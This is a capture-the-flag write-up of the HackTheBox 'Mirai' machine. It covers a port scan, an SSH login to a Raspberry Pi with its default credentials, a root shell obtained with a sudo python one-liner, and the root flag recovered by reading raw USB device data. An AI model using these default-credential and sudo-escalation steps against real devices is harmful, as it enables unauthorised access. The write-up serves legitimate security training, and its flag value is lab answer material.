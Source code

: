 ```yaml
---
layout: post
title:  "HackTheBox - Mirai"
date:   2021-08-06 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# FOOTHOLD

Visiting /admin on port 80 we see its a raspberry-pi login console. Googling gives us default creds of raspberry pi user:
[ssh connect](https://howchoo.com/g/mgi3mdnlnjq/how-to-log-in-to-a-raspberry-pi-via-ssh)

Now we can log in and grab user.txt from /home/pi/user.txt

# PRIVILEGE ESCALATION

Running sudo -l shows us we can run any command so I run my python command:

```s
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

pi@raspberrypi:~ $ sudo python -c 'import os; os.system("/bin/sh")'
# whoami
root
```
However root.txt in root directory doesn't have the root flag.It just has this:
```s
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```
Googling I find out that external drives and devices info are stored in /dev directory in sda1,sda2,sdb,etc

So I just did this:
```
cat /dev/sd*
```
And in the middle of the now absolutely destroyed terminal I see this:
```s
�+ �!9��;9�Y�3
              8PP
(["�      �1�Y��S��1�Y
                      �<Byc[��B)�>r &�<�yZ�.Gu���m^��>
                                                      �1�Y
�|}*,.������+-���3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
And thats our root flag :)